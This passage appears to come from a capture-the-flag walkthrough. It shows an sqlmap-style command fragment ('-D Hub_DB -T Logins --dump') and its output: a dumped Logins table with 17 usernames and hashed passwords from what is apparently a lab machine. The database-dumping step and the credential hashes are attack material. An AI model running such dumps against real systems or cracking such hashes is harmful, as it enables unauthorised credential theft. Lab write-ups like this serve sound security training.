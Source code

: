 Finally let us dump the Logins table by specifying the  `-D Hub_DB -T Logins --dump` flags.

```bash
14:13:33] [INFO] fetching columns for table 'Logins' in database 'Hub_DB'
[14:14:09] [INFO] retrieved: 'id','int'                                                                              
[14:14:14] [INFO] retrieved: 'password','varchar'
[14:14:19] [INFO] retrieved: 'username','varchar'
[14:14:19] [INFO] fetching entries for table 'Logins' in database 'Hub_DB'
Database: Hub_DB
Table: Logins
[17 entries]
+------+----------+--------------------------------------------------------------------------------------------------+
| id   | username | password                                                                                         |
+------+----------+--------------------------------------------------------------------------------------------------+
| 1    | sbauer   | 9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739 |
| 10   | jorden   | 9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739 |
| 11   | alyx     | fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa |
| 12   | ilee     | 68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813 |
| 13   | nbourne  | fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa |
| 14   | zpowers  | 68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813 |
| 15   | aldom    | 9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739 |
| 16   | minatotw | cf17bb4919cab4729d835e734825ef16d47de2d9615733fcba3b6e0a7aa7c53edd986b64bf715d0a2df0015fd090babc |
| 17   | egre55   | cf17bb4919cab4729d835e734825ef16d47de2d9615733fcba3b6e0a7aa7c53edd986b64bf715d0a2df0015fd090babc |
| 2    | okent    | fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa |
| 3    | ckane    | 68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813 |
| 4    | kpage    | 68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813 |
| 5    | shayna   | 9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739 |
| 6    | james    | 9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739 |
| 7    | cyork    | 9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739 |
| 8    | rmartin  | fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa |
| 9    | zac      | 68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813 |
+------+----------+--------------------------------------------------------------------------------------------------+
```
